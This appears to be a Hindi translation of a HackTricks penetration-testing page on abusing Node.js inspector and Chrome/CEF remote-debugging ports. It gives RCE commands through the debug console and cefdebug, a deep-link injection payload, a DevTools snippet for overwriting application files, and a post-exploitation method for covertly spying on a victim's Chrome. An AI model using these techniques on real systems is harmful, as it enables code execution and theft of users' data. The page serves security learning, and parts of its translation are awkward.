 # नोड इंस्पेक्टर/CEF डीबग दुरुपयोग

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> के साथ जीरो से हीरो तक AWS हैकिंग सीखें</summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप अपनी कंपनी का विज्ञापन **HackTricks** में देखना चाहते हैं या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live) पर **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** द्वारा PRs सबमिट करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## मूल जानकारी

[दस्तावेज़ से](https://origin.nodejs.org/ru/docs/guides/debugging-getting-started): `--inspect` स्विच के साथ शुरू किया जाए, तो एक नोड.जेएस प्रक्रिया एक डीबगिंग क्लाइंट के लिए सुनती है। **डिफ़ॉल्ट** रूप से, यह होस्ट और पोर्ट **`127.0.0.1:9229`** पर सुनेगा। प्रत्येक प्रक्रिया को एक **अद्वितीय** **UUID** भी सौंपा जाता है।

इंस्पेक्टर क्लाइंट्स को होस्ट पता, पोर्ट, और UUID को जोड़ना चाहिए और निर्दिष्ट करना चाहिए ताकि वे कनेक्ट कर सकें। पूरा URL कुछ इस प्रकार दिखेगा `ws://127.0.0.1:9229/0f2c936f-b1cd-4ac9-aab3-f63b0f33d55e`।

{% hint style="warning" %}
क्योंकि **डीबगर को नोड.जेएस निष्पादन वातावरण का पूरा एक्सेस** होता है, इस पोर्ट से कनेक्ट करने की क्षमता वाला एक दुर्भाग्यपूर्ण अभिनेता नोड.जेएस प्रक्रिया के पक्ष में अर्बिट्रे कोड का निष्पादन कर सकता है (**संभावित प्रिविलेज उन्नति**।)
{% endhint %}

इंस्पेक्टर शुरू करने के कई तरीके हैं:
```bash
node --inspect app.js #Will run the inspector in port 9229
node --inspect=4444 app.js #Will run the inspector in port 4444
node --inspect=0.0.0.0:4444 app.js #Will run the inspector all ifaces and port 4444
node --inspect-brk=0.0.0.0:4444 app.js #Will run the inspector all ifaces and port 4444
# --inspect-brk is equivalent to --inspect

node --inspect --inspect-port=0 app.js #Will run the inspector in a random port
# Note that using "--inspect-port" without "--inspect" or "--inspect-brk" won't run the inspector
```
जब आप एक inspected process शुरू करते हैं तो कुछ इस तरह का दिखाई देगा:
```
Debugger ending on ws://127.0.0.1:9229/45ea962a-29dd-4cdd-be08-a6827840553d
For help, see: https://nodejs.org/en/docs/inspector
```
**CEF** (**Chromium Embedded Framework**) जैसे प्रक्रियाएँ **डीबगर** (SSRF सुरक्षा बहुत ही समान रहती है) खोलने के लिए पैरामीटर का उपयोग करने की आवश्यकता है: `--remote-debugging-port=9222`। हालांकि, ये **NodeJS** **डीबग** सत्र की अनुमति देने की बजाय ब्राउज़र के साथ [**Chrome DevTools Protocol**](https://chromedevtools.github.io/devtools-protocol/) का उपयोग करेंगे, यह ब्राउज़र को नियंत्रित करने के लिए एक इंटरफेस है, लेकिन यह सीधा RCE नहीं है।

जब आप डीबग किए गए ब्राउज़र को शुरू करते हैं तो कुछ इस प्रकार दिखाई देगा:
```
DevTools listening on ws://127.0.0.1:9222/devtools/browser/7d7aa9d9-7c61-4114-b4c6-fcf5c35b4369
```
### ब्राउज़र, वेबसॉकेट और समान-मूल नीति <a href="#browsers-websockets-and-same-origin-policy" id="browsers-websockets-and-same-origin-policy"></a>

वेब-ब्राउज़र में खुली वेबसाइटें ब्राउज़र सुरक्षा मॉडल के तहत WebSocket और HTTP अनुरोध कर सकती हैं। **एक प्रारंभिक HTTP कनेक्शन** को **एक अद्वितीय डीबगर सत्र आईडी प्राप्त करने** के लिए आवश्यक है। **समान मूल नीति** वेबसाइटों को **इस HTTP कनेक्शन** को बनाने से रोकती है। [**DNS rebinding हमलों**](https://en.wikipedia.org/wiki/DNS\_rebinding)**** के खिलाफ अतिरिक्त सुरक्षा के लिए, Node.js सत्यापित करता है कि कनेक्शन के लिए **'Host' हेडर्स** निश्चित रूप से **एक आईपी पता** या **`localhost`** या **`localhost6`** निर्दिष्ट करते हैं।

{% hint style="info" %}
यह **सुरक्षा उपाय इंस्पेक्टर का शोषण करने से रोकता है** कोड चलाने के लिए **बस एक HTTP अनुरोध भेजकर** (जो एक SSRF vuln का शोषण किया जा सकता था)।
{% endhint %}

### चल रहे प्रक्रियाओं में इंस्पेक्टर शुरू करना

आप एक चल रहे nodejs प्रक्रिया को **डिफ़ॉल्ट पोर्ट में इंस्पेक्टर शुरू** करने के लिए **सिग्नल SIGUSR1** भेज सकते हैं। हालांकि, ध्यान दें कि आपके पास पर्याप्त विशेषाधिकार होने चाहिए, इसलिए यह आपको प्रक्रिया के अंदर की जानकारी तक के लिए **विशेषाधिकारित पहुंच** दे सकता है लेकिन सीधा प्रिविलेज उन्नति नहीं।
```bash
kill -s SIGUSR1 <nodejs-ps>
# After an URL to access the debugger will appear. e.g. ws://127.0.0.1:9229/45ea962a-29dd-4cdd-be08-a6827840553d
```
{% hint style="info" %}
यह कंटेनर में उपयोगी है क्योंकि **प्रक्रिया को बंद करके एक नया प्रक्रिया शुरू करना** `--inspect` के साथ **एक विकल्प नहीं** है क्योंकि **कंटेनर** के साथ **प्रक्रिया** को **मार दिया जाएगा**।
{% endhint %}

### इंस्पेक्टर/डीबगर से कनेक्ट करें

**क्रोमियम-आधारित ब्राउज़र** से कनेक्ट करने के लिए, Chrome या Edge के लिए `chrome://inspect` या `edge://inspect` URL का उपयोग किया जा सकता है। Configure बटन पर क्लिक करके, सुनिश्चित किया जाना चाहिए कि **लक्षित होस्ट और पोर्ट** सही ढंग से सूचीबद्ध हैं। छवि में एक रिमोट कोड निषेधन (RCE) उदाहरण दिखाया गया है:

![](<../../.gitbook/assets/image (620) (1).png>)

**कमांड लाइन** का उपयोग करके आप डीबगर/इंस्पेक्टर से कनेक्ट कर सकते हैं:
```bash
node inspect <ip>:<port>
node inspect 127.0.0.1:9229
# RCE example from debug console
debug> exec("process.mainModule.require('child_process').exec('/Applications/iTerm.app/Contents/MacOS/iTerm2')")
```
यह उपकरण [**https://github.com/taviso/cefdebug**](https://github.com/taviso/cefdebug), स्थानीय रूप से चल रहे **इंस्पेक्टर्स** को **खोजने** और उनमें **कोड इंजेक्ट** करने की अनुमति देता है।
```bash
#List possible vulnerable sockets
./cefdebug.exe
#Check if possibly vulnerable
./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.version"
#Exploit it
./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.mainModule.require('child_process').exec('calc')"
```
{% hint style="info" %}
ध्यान दें कि **NodeJS RCE उत्पादन** काम नहीं करेंगे अगर [**Chrome DevTools Protocol**](https://chromedevtools.github.io/devtools-protocol/) के माध्यम से ब्राउज़र से कनेक्ट किया गया है (आपको इसके साथ करने के लिए दिलचस्प चीजें खोजने के लिए API की जाँच करनी होगी)।
{% endhint %}

## NodeJS Debugger/Inspector में RCE

{% hint style="info" %}
यदि आप यहाँ आकर [**Electron में XSS से RCE कैसे प्राप्त करें इस पृष्ठ की जाँच करें।**](../../network-services-pentesting/pentesting-web/electron-desktop-apps/)
{% endhint %}

कुछ सामान्य तरीके **RCE** प्राप्त करने के लिए जब आप एक Node **inspector** से **कनेक्ट** कर सकते हैं उसका उपयोग करना है (ऐसा लगता है कि यह **Chrome DevTools protocol** के साथ कनेक्शन में काम नहीं करेगा)।
```javascript
process.mainModule.require('child_process').exec('calc')
window.appshell.app.openURLInDefaultBrowser("c:/windows/system32/calc.exe")
require('child_process').spawnSync('calc.exe')
Browser.open(JSON.stringify({url: "c:\\windows\\system32\\calc.exe"}))
```
## Chrome DevTools Protocol Payloads

आप यहाँ API देख सकते हैं: [https://chromedevtools.github.io/devtools-protocol/](https://chromedevtools.github.io/devtools-protocol/)\
इस खंड में मैं बस उन दिलचस्प चीजों की सूची देने वाला हूं जिन्हें लोग इस protocol का दुरुपयोग करने के लिए प्रयोग किया है।

### गहरे लिंक के माध्यम से पैरामीटर इंजेक्शन

[**CVE-2021-38112**](https://rhinosecuritylabs.com/aws/cve-2021-38112-aws-workspaces-rce/) में Rhino सुरक्षा ने पाया कि CEF पर आधारित एक एप्लिकेशन ने सिस्टम में एक कस्टम URI (workspaces://) रजिस्टर किया था जो पूर्ण URI को प्राप्त करता था और फिर उस URI से आंशिक रूप से निर्मित एक विन्यास के साथ CEF पर आधारित एप्लिकेशन को लॉन्च करता था।

पाया गया कि URI पैरामीटर URL डीकोड किए गए थे और CEF आधारित एप्लिकेशन को लॉन्च करने के लिए उपयोग किए गए थे, जिससे उपयोगकर्ता को कमांड लाइन में ध्यान देने के लिए ध्वज **`--gpu-launcher`** इंजेक्ट करने की अनुमति थी और विविध चीजें चलाने की अनुमति थी।

तो, एक पेलोड जैसे:
```
workspaces://anything%20--gpu-launcher=%22calc.exe%22@REGISTRATION_CODE
```
### फ़ाइलें अधिलेखित करें

**डाउनलोड की गई फ़ाइलें को बचाया जाएगा** के लिए फ़ोल्डर बदलें और एक फ़ाइल डाउनलोड करें जिससे आप अपने **हानिकारक कोड** के साथ एप्लिकेशन के उपयोग किए जाने वाले **स्रोत कोड** को **अधिलेखित** कर सकते हैं।
```javascript
ws = new WebSocket(url); //URL of the chrome devtools service
ws.send(JSON.stringify({
id: 42069,
method: 'Browser.setDownloadBehavior',
params: {
behavior: 'allow',
downloadPath: '/code/'
}
}));
```
### Webdriver RCE और डेटा उत्पीड़न

इस पोस्ट के अनुसार: [https://medium.com/@knownsec404team/counter-webdriver-from-bot-to-rce-b5bfb309d148](https://medium.com/@knownsec404team/counter-webdriver-from-bot-to-rce-b5bfb309d148) थेरिवर से RCE प्राप्त करना और आंतरिक पेजों को डेटा उत्पीड़ित करना संभव है।

### पोस्ट-एक्सप्लोइटेशन

एक वास्तविक वातावरण में और **एक उपयोगकर्ता PC को कंप्रमाइज़ करने के बाद** जो Chrome/Chromium आधारित ब्राउज़र का उपयोग करता है, आप डीबगिंग सक्रिय करके एक Chrome प्रक्रिया शुरू कर सकते हैं और डीबगिंग पोर्ट को फॉरवर्ड कर सकते हैं ताकि आप इसे एक्सेस कर सकें। इस तरह आप **विक्टिम जो Chrome के साथ कुछ भी करता है की सभी जांच कर सकें और संवेदनशील जानकारी चुरा सकेंगे**।

गुप्त तरीका यह है कि **हर Chrome प्रक्रिया को समाप्त करें** और फिर कुछ इस तरह का कॉल करें
```bash
Start-Process "Chrome" "--remote-debugging-port=9222 --restore-last-session"
```
## संदर्भ

* [https://www.youtube.com/watch?v=iwR746pfTEc\&t=6345s](https://www.youtube.com/watch?v=iwR746pfTEc\&t=6345s)
* [https://github.com/taviso/cefdebug](https://github.com/taviso/cefdebug)
* [https://iwantmore.pizza/posts/cve-2019-1414.html](https://iwantmore.pizza/posts/cve-2019-1414.html)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=773](https://bugs.chromium.org/p/project-zero/issues/detail?id=773)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=1742](https://bugs.chromium.org/p/project-zero/issues/detail?id=1742)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=1944](https://bugs.chromium.org/p/project-zero/issues/detail?id=1944)
* [https://nodejs.org/en/docs/guides/debugging-getting-started/](https://nodejs.org/en/docs/guides/debugging-getting-started/)
* [https://chromedevtools.github.io/devtools-protocol/](https://chromedevtools.github.io/devtools-protocol/)
* [https://larry.science/post/corctf-2021/#saasme-2-solves](https://larry.science/post/corctf-2021/#saasme-2-solves)
* [https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/](https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks) github रेपो में PR जमा करके।

</details>
